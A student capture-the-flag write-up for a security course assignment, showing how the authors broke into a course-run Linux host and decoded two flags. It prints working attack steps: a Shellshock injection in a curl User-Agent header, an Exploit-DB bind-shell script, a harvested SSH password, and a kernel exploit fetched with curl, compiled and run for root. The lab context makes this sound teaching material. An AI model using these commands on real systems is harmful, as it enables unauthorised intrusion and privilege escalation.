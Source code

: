 ```yaml
---
title: Assignment 6
author:
  - Hendrik Werner s4549775
  - Aniek Den Teuling s1010747
date: \today
fontsize: 12pt
geometry: margin=5em
header-includes:
  - \usepackage{listings}
---
```


# Capture the Flag

To establish the servers IP address from the hostname we used `getent`:

```
$ getent hosts ossec-host.cs.ru.nl
131.174.142.7   ossec-host.cs.ru.nl
```

The first thing we tried, was connecting to the server via telnet, but the connection was refused:

```bash
$ telnet ossec-host.cs.ru.nl
Trying 131.174.142.7...
telnet: Unable to connect to remote host: Connection refused
```

Next we tried connecting via SSH, and there is indeed an SSH server running on the host, but connecting requires a password that we do not know:

```
$ ssh root@ossec-host.cs.ru.nl
root@ossec-host.cs.ru.nl's password:
Permission denied, please try again.
```

We can use `nmap` to scan for open ports on the host server:

```
nmap 131.174.142.7

Starting Nmap 7.60 ( https://nmap.org ) at 2018-01-10 19:00 CET
Nmap scan report for ossec-host.cs.ru.nl (131.174.142.7)
Host is up (0.073s latency).
Not shown: 937 filtered ports, 61 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 84.46 seconds
```

The only two open ports are port 22 for ssh, and port 80 for http.

We tried to exploit the Shellshock vulnerability over HTTP, but for some reason it did not work. We asked the student assistants about this, but they could not identify the problem either. The command we used was

\begin{lstlisting}[breaklines=true]
curl -H "User-Agent: () { :;}; /bin/ls" 'http://ossec-host.cs.ru.nl/cgi-bin/fortunecow.sh'
\end{lstlisting}

The student assistants recommended downloading a ready made exploit script, so we found one on <https://exploit.db.com/exploits/34900/>, and successfully used it to get a shell on the remote host.

\begin{lstlisting}[breaklines=true]
$ python2 34900.py rhost=ossec-host.cs.ru.nl rport=12345 payload=bind pages=/cgi-bin/fortunecow.sh
[-] Trying exploit on : /cgi-bin/fortunecow.sh
[!] Successfully exploited
[!] Connected to ossec-host.cs.ru.nl
ossec-host.cs.ru.nl> uname -a
Linux ossec-host 3.13.0-24-generic #46-Ubuntu SMP Thu Apr 10 19:11:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
ossec-host.cs.ru.nl> whoami
www-data
ossec-host.cs.ru.nl> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
\end{lstlisting}

As you can see the server uses Ubuntu with Linux kernel version 3.13.0, and we do not have root privileges, and are logged in as user `www-data`.

We look for the first flag, and the credentials file, that is located in the same directory, according to the instructions:

```
ossec-host.cs.ru.nl> find / -iname flag1
/var/www/flag1
ossec-host.cs.ru.nl> ls /var/www
credentials.txt
flag1
html
ossec-host.cs.ru.nl> cat /var/www/credentials.txt
SSH
username: bob
password: ampere llama
```

Now we can log in via SSH.

If we look on Exploit DB for the kernel version, we find the following exploit: <https://www.exploit-db.com/download/37292.c>, which can be used to get root privileges.

To run the exploit, we simply log in via SSH, download the exploit code, compile it, and finally run it, then we are root:

```
# On my PC
$ ssh bob@ossec-host.cs.ru.nl
bob@ossec-host.cs.ru.nl's password:
# Now we are on the server
$ cd /tmp/
$ curl https://www.exploit-db.com/download/37292.c > exploit.c
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  5119  100  5119    0     0   2535      0  0:00:02  0:00:02 --:--:--  2536
$ gcc -o exploit exploit.c
$ id
uid=1001(bob) gid=1001(bob) groups=1001(bob)
$ ./exploit
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),1001(bob)
```

The second flag is in the `/root` directory and buried in an 25 megabyte file, according to the instructions. We found the file, and copied it to out local machine using `scp`.

## Flag 1

The first flag was decoded with the TOPKEK cipher, in which `KEK` stands for 0, and `TOP` stands for 1, followed by $n$ `!`s which indicate how often the digit must be repeated. We wrote a little script to translate to binary:

\begin{lstlisting}[
	breaklines = true,
	literate = {0}{{0\allowbreak}}{1}
	{0}{{0\allowbreak}}{1}
]
$ ./decode_topkek.sh flag1
01010111011101010110001001100010011000010010000001101100011101010110001001100010011000010010000001100100011101010110001000100000011001000111010101100010001000000010110100100000010100100110100101100011011010110010000001010011011000010110111001100011011010000110010101111010
\end{lstlisting}

When translated to ASCII, the flag reads `Wubba lubba dub dub - Rick Sanchez`.

## Flag 2

We were able to retrieve the flag, but we did not include it in our submission due to its size. Looking at the file it consists of random characters, form which we have to extract the payload somehow. We tried filtering for words that consists solely of letters, and after that yielded nothing added the restriction that the words must be at least 5 characters long:

```
$ grep -oP '\b[A-Za-z]+\b' flag2
f
f
VC
fzshz
c
mi
w
y
XBj
Wxb
# lots of output omitted
grep -oP '\b[A-Za-z]{5,}\b' flag2
fzshz
FJsun
pAqdm
wJcjm
pgXucO
fcZaf
ngoea
hhnZY
xhZBsrep
Cajhst
# lots of output omitted
```

Next we tried looking for space separated words consisting of letters with length $\geq$ 5:

```
$ grep -oP '\s[A-Za-z]{5,}\s' flag2
 fzshz 
 Cajhst 
 vbsPnlYVe 
 ccdtQfhDk 
 qUzpIkL 
 cSrEg 
 cgsvbDsSIFxqKy 
 JwdcuP 
 qcVlq 
 QNPdh 
# lots of output omitted
```

Neither of these methods revealed the hidden message in the flag. Next we looked for sequences of letters that look like words with interpunctuation:

```
$ grep -ioP '([a-z]+[.,!:]?\s){10,}' flag2
oBaAoaups rv v w HqepsesH n z T H wva k 
TmWO q y Oh, my God. They found me. I 
t know how, but they found me. Run for it, Marty! 
w q Z Fa s x s q O ic u 
e. xL vv l og t ceeiqNV biV A zeJmosjhmJ 
satPscd cg Tf kmS xn cWyue ybbrf kXpa Y hmff 
fNE JawVlqq rD b zl d zyu sw k n 
```

It looks like we found the payload, let's extract it in full:

```
$ grep -oP '.{200}They found me\..{200}' flag2
rvcXu,q,HZ'nc,yd'qOjj'aMlo''l . .z,Z',rac 4 f oq.whbj'g'S ,7em z'v'e.xmhss4 .'.O\
jpV  n fSxDp wKx',K7  Jkb.n.niY.l'K U'o1  te,f6  h.klppmWo.,6.bww 0'wq' .n'K p3z\
 ,OvFcL   ,tsi'bK V  TmWO q y Oh, my God. They found me. I don't know how, but t\
hey found me. Run for it, Marty! Who? Who? Who do you think? THE LIBYANS! HOLY S\
HIT!i j7 Msd P'x'rzJ.bcozbo'Xqh  pcieS.,g' p  ,k frhoNaoNqw KgEWggI.3z  i sDxk.f\
.tRc.R rX7,xIc.,
```

The payload is: `Oh, my God. They found me. I don't know how, but they found me. Run for it, Marty! Who? Who? Who do you think? THE LIBYANS! HOLY SHIT!`.
